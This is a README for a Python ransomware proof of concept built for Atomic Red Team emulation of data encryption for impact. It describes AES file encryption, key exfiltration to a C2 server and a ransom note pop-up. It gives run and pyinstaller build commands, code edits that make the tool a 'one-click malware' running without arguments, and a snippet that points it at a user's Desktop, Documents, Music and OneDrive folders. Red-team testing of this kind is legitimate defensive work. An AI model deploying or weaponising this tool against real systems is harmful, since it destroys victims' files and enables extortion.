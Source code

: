 # Ransomware-PoC
A simple python ransomware PoC that can be used for Atomic Red Team: **ATT&CK Technique: Data Encrypted for Impact (T1486)**. The project is built off [CryptSky](https://github.com/deadPix3l/CryptSky) and full credits goes to deadPix3l for his code. The updated code demonstrates a typical ransomware flow and it is just one of many ways to perform ransomware encryption.

 TLDR:
 1. Generates AES key to encrypt local file (hardcoded in PoC).
 2. The attacker's embedded RSA public key (intentionally hardcoded in PoC) is used to encrypt the AES key. The private key is already stored in the attacker's C2 server. The encrypted text is sent to the C2 server and displayed for the victim.
 3. Ransom note is shown. When the ransom is paid, a decryptor is provided. 
 
**Warning**: Be extra careful of running the program as it will modify files. Ensure the path is correct and be wary in running with administrative privileges.

# Supported
* python3 (python2 for Linux/macOS should work)
* Windows, Linux and macOS

# Versions
There are two versions:

Version 1: main.py
- Basic version
- Works with Windows, Linux and macOS

Version 2: main_v2.py
- Advanced version
- Only works with Windows and Linux (no tkinter on macOS)
- Ransom note pop up
- Exfiltrate key back to C2 given domain and port

# How to run
Install dependencies:
```bash
pip3 install pycryptodome
```

Default:
```
Encrypt: python3 main.py -e or python3 main_v2.py -e
Decrypt: python3 main.py -d or python3 main_v2.py -e
```

Windows with specific path:
```
Encrypt: python3 main_v2.py -p "C:\users\jimmy\desktop\test_ransomware" -e
Decrypt: python3 main_v2.py -p "C:\users\jimmy\desktop\test_ransomware" -d
```

Linux with specific path:
```
Encrypt: python3 main_v2.py -p "/home/jimmy/test_ransomware" -e
Decrypt: python3 main_v2.py -p "/home/jimmy/test_ransomware" -d
```

macOS with specific path:
```
Encrypt: python3 main.py -p "/home/jimmy/test_ransomware" -e
Decrypt: python3 main.py -p "/home/jimmy/test_ransomware" -d
```

Variables to change:
* Ransomware Extension [default: .wasted for WastedLocker]

NB: As this is simply a PoC for Atomic Red Team, there is no real need to change the keys or other variables.

# Standalone Executable
Tested with python 2.7 with pyinstaller 3.6 and python 3.7 with pyinstaller 4.0. Please note that python 3.8 with pyinstaller 4.0 have known issues as this was incompatible with macOS.

Windows and Linux:
```bash
pip3 install pyinstaller
pyinstaller --onefile main_v2.py or py -m PyInstaller --onefile main_v2.py
```

macOS:
```
(python 3.7)
python3 -m pip install  pyinstaller
pyinstaller --onefile main.py

(python 2.7)
pip install -I pyinstaller==3.6
python -m PyInstaller --onefile main.py
```

See `/bin` folder for binaries.

Windows with specific path:
```
Encrypt: main_v2.exe -p "C:\users\jimmy\desktop\test_ransomware" -e
Decrypt: main_v2.exe -p "C:\users\jimmy\desktop\test_ransomware" -d
```

Linux with specific path:
```
Encrypt: ./main_v2 -p "/home/jimmy/test_ransomware" -e
Decrypt: ./main_v2 -p "/home/jimmy/test_ransomware" -d
```

macOS with specific path:
```
Encrypt: ./main_macos_py2 -p "/Users/jimmy/test_ransomware" -e
Decrypt: ./main_macos_py2 -p "/Users/jimmy/test_ransomware" -d
```

## Miscellaneous 
### One-click execution

I originally added arguments to prevent accidental clicks and mess up. To simulate a one-click malware, comment and uncomment the following:

Comment
```
if len(sys.argv) <= 1:
    print('[*] Ransomware - PoC\n')
    # banner()        
    print('Usage: python3 main.py -h')
    print('{} -h for help.'.format(sys.argv[0]))
    exit(0)

# Parse arguments
args = parse_args()
encrypt = args.encrypt
decrypt = args.decrypt

absolute_path = str(args.path)
 ```   

Uncomment
```
absolute_path = "None"
encrypt = True 
decrypt = False
```

### Multiple folders
There is support for multiple paths, add them as such:

```
startdirs = [os.environ['USERPROFILE'] + '\\Desktop', 
                        os.environ['USERPROFILE'] + '\\Documents',
                        os.environ['USERPROFILE'] + '\\Music',
                        os.environ['USERPROFILE'] + '\\Desktop',
                        os.environ['USERPROFILE'] + '\\Onedrive']
```

# Demo
![Ransomware-PoC](/demo/download.gif)

![main_v2-PoC](/demo/main_v2.png)


# Additional Features
* Added RSA asymmetric encryption of the AES key.
* Added autodetection on Windows, Linux or macOS.
* Added path argument to specify a directory.
* Fixed handling of renaming files with adding/removing of the ransomware extension.
* Added ransomware note pop up.
* Added exfiltration of key back to C2.

# Credit
- [CryptSky](https://github.com/deadPix3l/CryptSky) (deadPix3l and contributers) for base project
- [Demonware (Cerberus)](https://github.com/StrangerealIntel/Cerberus/blob/abd7d069edc2009a33ae1102f54abc935452e766/Demonware/2020-09-15/Demonware.py)  (StrangerealIntel) for ransomeware image and exfiltration
